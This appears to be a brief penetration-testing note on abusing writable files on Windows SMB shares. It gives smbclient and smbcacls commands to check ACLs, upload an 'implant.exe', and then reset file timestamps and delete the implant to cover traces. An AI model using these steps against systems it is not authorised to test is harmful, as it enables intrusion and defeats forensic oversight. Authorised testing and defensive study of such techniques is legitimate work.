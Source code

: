# Unix Shell

TODO: Convert the command lines to remote enumeration

## 01 - Detect

```
$ smbcacls -U "<username>%<password>" //<IP>/C$ "/DevTools/CleanUp.ps1"
```

Using `smbclient` to enumerate the existing files while enabling `showacls`.

```
smb: \> showacls

smb: \> ls "/DevTools/CleanUp.ps1"
```

## 02 - Exploit

Take note of the timestamps

```
smb: \> allinfo file.txt

smb: \> put implant.exe
```

## 03 - Cleanup


```
smb: \> help utimes
HELP utimes:
		<file name> <create_time> <access_time> <mod_time> <ctime> set times

smb: \> utimes file.txt [YY]YY:MM:DD-hh:mm:ss [YY]YY:MM:DD-hh:mm:ss [YY]YY:MM:DD-hh:mm:ss [YY]YY:MM:DD-hh:mm:ss
```

```
smb: \> rm implant.exe
```
